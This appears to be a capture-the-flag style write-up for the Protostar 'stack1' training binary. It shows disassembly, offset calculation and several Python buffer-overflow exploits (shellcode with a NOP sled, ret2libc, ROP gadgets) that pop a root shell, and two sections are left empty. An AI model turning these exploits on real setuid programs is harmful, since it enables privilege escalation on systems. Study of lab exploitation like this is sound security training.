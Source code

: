 # Stack1

## Solution
Quick disassembly to see the offsets of the variables stored in the binary.
```
[0x080483b0]> pdf @main
            ; DATA XREF from entry0 @ 0x80483c7
┌ 115: int main (uint32_t arg_8h, int32_t arg_ch);
│           ; arg uint32_t arg_8h @ ebp+0x8
│           ; arg int32_t arg_ch @ ebp+0xc
│           ; var char *src @ esp+0x4
│           ; var char *dest @ esp+0x1c
│           ; var int32_t var_8h @ esp+0x5c
```

As the contents of `arg_ch` is copied into the `dest` variable, the size of the offset is the
distance from the start of the `dest` buffer to the `var_8h` variable, which we need to modify. 
```
>>> 0x5c - 0x1c
64
```

To solve the challenge, we need to change the `var_8h` variable to `61626364` which corresponds to
`abcd`. 
```
user@protostar:/opt/protostar/bin$ ./stack1 $(python -c 'print "A"*64+"dcba"')
you have correctly got the variable to the right value
```

## Shells

### Classic
First we need to find the offset from the start of the buffer to the %eip register, so we can
redirect process execution. We can do this by giving it a known pattern of bytes, in this case
`BBBBCCCCDDDD`, and so on.
```
(gdb) r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGG
Starting program: /opt/protostar/bin/stack1 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGG
Try again, you got 0x42424242

Program received signal SIGSEGV, Segmentation fault.
0x46464646 in ?? ()
```

Since %eip was overwritten with `46464646` the offset is easily calculated as 80 bytes.

```py
import struct

off = 80

pad = 'A' * off

buf = ''
buf += '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9'
buf += '\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89'
buf += '\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'

nop = '\x90' * 0x80

ret = struct.pack('I', 0xbffff640 + off + 0x80)

print pad + ret + nop + buf
```

Here it is in action.
```
user@protostar:/opt/protostar/bin$ ./stack1 $(python /tmp/pwn.py)
Try again, you got 0x41414141
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

### Ret2libc
Read stack0 to see how we calculated the appropriate offsets for `libc`, `system` and `/bin/sh`
required for this ret2libc exploit.

```py
import struct

off = 80

pad = 'A' * off

system = struct.pack('I', 0xb7ecffb0)
bin_sh = struct.pack('I', 0xb7e97000 + 0x11f3bf)

print pad + system + 'AAAA' + bin_sh
```

Here it is in action.
```
user@protostar:/opt/protostar/bin$ ./stack1 $(python /tmp/pwn.py)
Try again, you got 0x41414141
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

### Rop Chain to Shellcode
Here we just redirect process execution to a `ret` instruction, which then takes the next 4 bytes
on the stack and calls the shellcode there.

```py
import struct

off = 80

pad = 'A' * off

buf = ''
buf += '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9'
buf += '\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89'
buf += '\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'

nop = '\x90' * 0x80

ret = struct.pack('I', 0x080484d6)
ret += struct.pack('I', 0xbffff640 + off + 0x80)

print pad + ret + nop + buf
```

Here it is in action.
```
user@protostar:/opt/protostar/bin$ ./stack1 $(python /tmp/pwn.py)
Try again, you got 0x41414141
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

### Rop Chain to Libc
...

### Ret2.text to Shellcode
First we need to find a POP, POP, RET gadget in the target binary. We can do this with
`msfelfscan`.
```
➜  stack git:(master) ✗ msfelfscan -s -f stack1    
0x08048547   edi ebp ret
0x08048432   ebx ebp ret
0x08048577   ebx ebp ret
```

```py
import struct

off = 80

pad = 'A' * off

buf = ''
buf += '\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9'
buf += '\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89'
buf += '\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80'

nop = '\x90' * 0x80

ret = struct.pack('I', 0x08048547)

ret += 'AAAA'                                    # POP
ret += 'AAAA'                                    # POP
ret += struct.pack('I', 0xbffff640 + off + 0x80) # RET

print pad + ret + nop + buf
```

Here it is in action.
```
user@protostar:/opt/protostar/bin$ ./stack1 $(python /tmp/pwn.py)
Try again, you got 0x41414141
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

### Ret2.text to Libc
